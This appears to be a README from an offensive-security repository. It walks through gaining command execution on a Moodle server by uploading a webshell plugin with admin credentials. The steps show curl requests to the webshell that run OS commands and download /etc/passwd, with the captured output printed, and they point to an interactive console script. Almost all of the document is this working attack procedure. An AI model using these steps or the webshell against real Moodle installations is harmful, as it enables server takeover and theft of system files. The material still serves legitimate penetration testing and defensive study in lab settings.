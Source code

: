 # Moodle - Upload a plugin

## Requirements

 - A valid **username and password** of a user with **admin rights** on Moodle.

## Exploitation

### Step 1.1: Upload the webshell plugin

Go to "Site administration --> Install plugins" page, at http://127.0.0.1:10080/admin/tool/installaddon/index.php, and click on "_Choose a file_":

![](./imgs/upload_and_install.png)

### Step 1.2: Plugin successfully uploaded

Press the buttons on the various pages until you get a message stating that your plugin is successfully uploaded:

![](./imgs/plugin_successfully_uploaded.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/local/moodle_webshell/webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/local/moodle_webshell/webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./imgs/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/local/moodle_webshell/webshell.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/local/moodle_webshell/webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

You can also download a remote file from a browser with a GET request :

![](./imgs/download_file_web.png)

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/169657310-dee340d6-19c0-4192-bcd1-ac8b9b29b731.mp4

## References
 - https://github.com/joaomatosf/jexboss
